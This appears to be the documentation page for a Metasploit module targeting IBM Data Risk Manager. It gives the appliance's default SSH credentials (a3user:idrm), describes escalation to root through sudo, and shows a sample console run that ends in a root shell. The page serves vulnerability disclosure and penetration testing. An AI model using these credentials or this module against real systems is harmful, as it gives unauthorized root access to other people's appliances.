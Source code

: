 ## Vulnerable Application
This module abuses a known default password on IBM Data Risk Manager. The 'a3user' has the default password 'idrm', and allows an attacker to login to the virtual appliance via SSH. 
This can be escalated to a full root access, as 'a3user' has sudo access with the default password.
At the time of disclosure, this is a 0 day. Versions <= 2.0.3 are confirmed to be affected, and the latest 2.0.6 is most likely affected too.

**Vulnerable Application Installation Steps**

The application is available to download as Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set RHOSTS!
A successful exploit will look like this:

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > run
[*] 10.22.22.212:22 - Attempting to login to the IBM Data Risk Manager appliance...
[+] 10.22.22.212:22 - Login Successful (a3user:idrm)
[*] Found shell.
[*] Command shell session 5 opened (10.22.22.1:45489 -> 10.22.22.212:22) at 2020-04-22 12:10:13 +0700
[*] 10.22.22.212:22 - Escalating privileges to root, please wait a few seconds...
[+] 10.22.22.212:22 - Done, enjoy your root shell!
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```

## Vulnerability information
For more information about the vulnerability check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md
